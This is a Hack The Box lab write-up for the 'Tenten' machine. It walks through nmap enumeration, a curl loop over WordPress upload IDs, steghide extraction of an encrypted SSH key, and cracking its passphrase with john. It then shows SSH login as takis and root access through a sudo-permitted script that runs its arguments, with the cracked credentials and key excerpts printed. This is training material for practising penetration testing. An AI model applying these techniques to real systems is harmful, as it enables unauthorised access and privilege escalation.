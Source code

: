 # Loot

## Box Info
- Name : Tenten
- IP : 10.10.10.10
- Level : Medium
-  OS : Linux

## Creds

| Service | Username | Password | Description |
| --- | --- | --- | ---| 
| Private Key passphrase | takis | superpassword | Cracked with ssh2john |

# Enumeration

## Nmap

- Quick scan
```bash
sudo nmap --max-retries 0 -p- -oN nmap/quick_scan 10.10.10.10.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-15 03:25 EDT
Warning: 10.10.10.10 giving up on port because retransmission cap hit (0).
Stats: 0:00:57 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 30.61% done; ETC: 03:28 (0:02:09 remaining)
Stats: 0:00:58 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 30.79% done; ETC: 03:28 (0:02:08 remaining)
Nmap scan report for 10.10.10.10. (10.10.10.10)
Host is up (0.17s latency).
Not shown: 65533 filtered ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 147.64 seconds

```
- Custom Scripts and Version Enumeration
```bash
sudo nmap -sC -sV -oA nmap/targeted_scan -p 22,80 10.10.10.10.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-15 03:28 EDT
Nmap scan report for 10.10.10.10. (10.10.10.10)
Host is up (0.17s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ec:f7:9d:38:0c:47:6f:f0:13:0f:b9:3b:d4:d6:e3:11 (RSA)
|   256 cc:fe:2d:e2:7f:ef:4d:41:ae:39:0e:91:ed:7e:9d:e7 (ECDSA)
|_  256 8d:b5:83:18:c0:7c:5d:3d:38:df:4b:e1:a4:82:8a:07 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.7.3
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Job Portal &#8211; Just another WordPress site
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.25 seconds

```
**Quick Glance**
- Running ubuntu
- Apache 2.4.18
- Wordpress Website

## Website
### The Rabbit Hole
- In Job Listings we can check check the pentester job where arbitrary file upload is allowed. We can upload a reverse shell and try to execute, but not taking .php files or GIF8a; prepended.

### Intended Method
- We can see that job listings is present in directory : 8.
- We can use curl to enumerate all the Directories from 1-20
```bash
for i in `seq 1 20`;
do
echo -n $i:; curl -s http://10.10.10.10/index.php/jobs/apply/$i/ | grep '<title>'
done

...[snip]...
11:<title>Job Application: cube &#8211; Job Portal</title>
12:<title>Job Application: Application &#8211; Job Portal</title>
13:<title>Job Application: HackerAccessGranted &#8211; Job Portal</title>
14:<title>Job Application: Application &#8211; Job Portal</title>
15:<title>Job Application: Application &#8211; Job Portal</title>
16:<title>Job Application: cmd &#8211; Job Portal</title>
...[snip]...
```
- We can see there is a file called HackerAccessGranted.
- All files are stored in http://\<website\>/\<wordpress\>/wp-content/uploads/\<year\>/\<month\>/\<filename\>
- I have written a python script to enumerate sequentially.
```bash
python3 exploit.py 
[*] Trying: http://10.10.10.10/wp-content/uploads/2017/04/HackerAccessGranted.jpg
[+] Found: http://10.10.10.10/wp-content/uploads/2017/04/HackerAccessGranted.jpg
[!] Done

```
- We can see that it is an image
![[Pasted image 20210415090612.png]]
- We can download it and run steghide against it.
```bash
steghide extract -sf HackerAccessGranted.jpg
Enter passphrase: 
wrote extracted data to "id_rsa".

```
- Just press enter on password prompt for blank password.
- It is an encrypted RSA private key
```bash
cat id_rsa                                                                                  
-----BEGIN RSA PRIVATE KEY-----                                                                 
Proc-Type: 4,ENCRYPTED                                                                          
DEK-Info: AES-128-CBC,7265FC656C429769E4C1EEFC618E660C                                          
                                                                                                
/HXcUBOT3JhzblH7uF9Vh7faa76XHIdr/Ch0pDnJunjdmLS/laq1kulQ3/RF/Vax                                
tjTzj/V5hBEcL5GcHv3esrODlS0jhML53lAprkpawfbvwbR+XxFIJuz7zLfd/vDo                                
1KuGrCrRRsipkyae5KiqlC137bmWK9aE/4c5X2yfVTOEeODdW0rAoTzGufWtThZf                                
...[snip]...
```
# Foothold

## User Takis
- We can use ssh2john and then use john on the hash.
```bash
./ssh2john.py id_rsa > id_rsa.hash
╭─norman@kali ~/Hack-The-Box/machines/tenten ‹main*› 
╰─$ cat id_rsa.hash 
id_rsa:$sshng$1$16$7265FC656C429769E4C1EEFC618E660C$1200$fc75dc501393dc98736e51fbb85f5587b7da6bb
e971c876bfc2874a439c9ba78dd98b4bf95aab592e950dff445fd56b1b634f38ff57984111c2f919c1efddeb2b383952
d2384c2f9de5029ae4a5ac1f6efc1b47e5f114826ecfbccb7ddfef0e8d4ab86ac2ad146c8a993269ee4a8aa942d77edb
9962bd684ff87395f6c9f55338478e0dd5b4ac0a13cc6b9f5ad4e165f2b69f2d224c63e7743ecb31d9bfa393b902cf82
843605369855d570e07c3cc78289ca302e22112ec993c1b3db43c9b2649d5826b317aa4812a848e0d42b9e477c9262aa
ce4a5f5aa643cf7fa0e9fe3d1987fdeda3394d081375acb6a05aa85c758f84adc29b4b4c1aa2d9034d7ea0dbb05d2d07
e77b7d146ec6a94df5c23ee7006581a5f1a8746c1e75875ee3394e04f55b36e95130a3a412bbff34288655170aea4e50
b5d6f07e8ae1fba6cc8e6284e90bcc5db7ac66d434802f52259de5313274218f37f0741980eb12c358c3af1b8f5760d
...[snip]...
```
- The run john against it
```bash
john --wordlist=$ROCK id_rsa.hash                                                     130 ↵
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
superpassword    (id_rsa)
Warning: Only 1 candidate left, minimum 4 needed for performance.
1g 0:00:00:06 DONE (2021-04-15 09:11) 0.1494g/s 2143Kp/s 2143Kc/s 2143KC/s *7¡Vamos!
Session completed
```
- So superpassword is the password for the private key.
- `chmod 600 id_rsa` and then try to ssh as `takis`, which was one of the users from the wordpress blog, and use the password superpassword.
```bash
ssh takis@10.10.10.10 -i id_rsa 
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

65 packages can be updated.
39 updates are security updates.


Last login: Thu Apr 15 15:57:44 2021 from 10.10.14.5
takis@tenten:~$ 

```
- We can cat out the user.txt

# Privilege Escalation

## User root
- Upon running `sudo -l` we see we can run `/bin/fuckin` as sudo
```bash
takis@tenten:~$ sudo -l
Matching Defaults entries for takis on tenten:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User takis may run the following commands on tenten:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: /bin/fuckin

```
- Upon reading the file, we can see it is a bash script (from the shebang line), which we can executes the arguments (1-4)
```bash
takis@tenten:~$ cat /bin/fuckin
#!/bin/bash
$1 $2 $3 $4

```
- We can run `sudo /bin/fuckin bash` to get a root shell and then cat out the root.txt
```bash
takis@tenten:~$ sudo /bin/fuckin bash
root@tenten:~# 
```